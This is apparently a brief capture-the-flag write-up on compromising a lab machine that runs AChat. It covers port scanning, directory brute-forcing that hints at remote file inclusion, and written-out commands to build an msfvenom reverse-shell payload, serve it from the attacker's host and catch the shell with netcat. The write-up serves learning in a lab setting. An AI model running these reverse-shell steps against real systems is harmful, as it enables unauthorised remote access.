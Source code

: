 # scanning

Only 2 ports open

```
PORT     STATE SERVICE REASON          VERSION
9255/tcp open  http    syn-ack ttl 127 AChat chat system httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp open  achat   syn-ack ttl 127 AChat chat system
```

According to feroxbuster output we may be able to RFI on this box.

```
200        1l        2w     1078c http://10.10.10.74:9255/favicon.ico
204        0l        0w        0c http://10.10.10.74:9255/render/https://www.google.com
204        0l        0w        0c http://10.10.10.74:9255/render/https://www.google.com.txt
204        0l        0w        0c http://10.10.10.74:9255/render/https://www.google.com.html
204        0l        0w        0c http://10.10.10.74:9255/render/https://www.google.com.php
204        0l        0w        0c http://10.10.10.74:9255/render/https://www.google.com.asp
204        0l        0w        0c http://10.10.10.74:9255/render/https://www.google.com.aspx
204        0l        0w        0c http://10.10.10.74:9255/render/https://www.google.com.jsp
```

Trying with aspx first.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=8081 -f aspx > s16-4-8081.aspx
```

Then host with python

```
$ python3 -m http.server 80
```

Listener:

```
$ nc -nvlp 8081
```

Trigger rev, shell by going to
10.10.10.74:9255/render/http://10.10.16.4:80/s16-4-8081.aspx

No dice with aspx. Trying php instead
![[5c558e1181ea450da9c5d270710432de.png]]

# You fool, it was the achat exploit

I saw this on searchsploit but it wasn't working. The payload needed to be modified.
![[65c89b6a9f554899bebeace2841aa040.png]]
